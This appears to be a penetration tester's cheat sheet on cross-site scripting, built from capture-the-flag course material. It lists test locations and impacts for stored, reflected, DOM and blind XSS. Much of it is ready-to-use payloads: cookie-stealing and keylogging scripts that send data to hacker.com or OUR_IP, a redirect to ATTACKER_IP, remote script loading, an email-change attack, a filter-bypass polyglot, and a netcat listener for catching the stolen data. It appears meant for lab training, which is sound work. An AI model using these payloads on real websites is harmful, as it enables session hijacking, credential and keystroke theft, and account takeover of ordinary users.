 # PoC Payload: <script>alert('XSS');</script>

# PoC Payload 2: <img src=x onerror="document.location='http://ATTACKER_IP:PORT/'"/<

## Payloads: https://github.com/swisskyrepo/PayloadsAllTheThings

## Places to inject XSS payloads:

### 1) User-Agent

### 2) HTTP Headers

### 3) Message Forms

## Detection methods:

### 1) Try injecting HTML code instead of JavaScript

### 2) Make sure everything is escaped so that you can bypass basic defense mechanisms

### Example: <>/\script'"=

### 3) Use alternative to "alert" payload to test for XSS

### Session stealing: <script>fetch('https://hacker.com/steal?cookie=' + btoa(document.cookie));</script>

### Keylogger: <script>document.onkeypress = function(p){ fetch ('https://hacker.com/log?key=' + btoa(p.key) );}</script>

### Change user's email address: <script>user.changeEmail('attacker@hacker.com');</script>

# Stored XSS

## Test locations: 

#### 1: Comments on a blog

#### 2: User profile information

#### 3: Website listings

## IMPACT:

#### Steal victim's session cookie. Impersonate the visiting user.

# Reflected XSS

## Test locations:

#### 1: URL file path

#### 2: Parameters in the URL query string

#### 3: Sometimes, HTTP headers

## IMPACT:

#### Attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session/customer information.

# DOM Based XSS

## Test locations:

#### 1: Look for parts of the code that access certain variables that we can have control over.

#### E.g. "window.location.x" parameter.

#### When we've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as "eval()"

## IMPACT:

#### Steal content from page/user's session. Crafted links could be sent to victims, redirecting them to another site.

# BLIND XSS 

## Test locations:

#### Ensure payload has a call back (HTTP request) 

# POLYGLOT PAYLOAD

#### jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e (XSS filter bypass)


## Commands

| Code | Description |
| ----- | ----- |
| **XSS Payloads** |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |
| **Commands** |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80` | Start `netcat` listener |
| `sudo php -S 0.0.0.0:80 ` | Start `PHP` server |
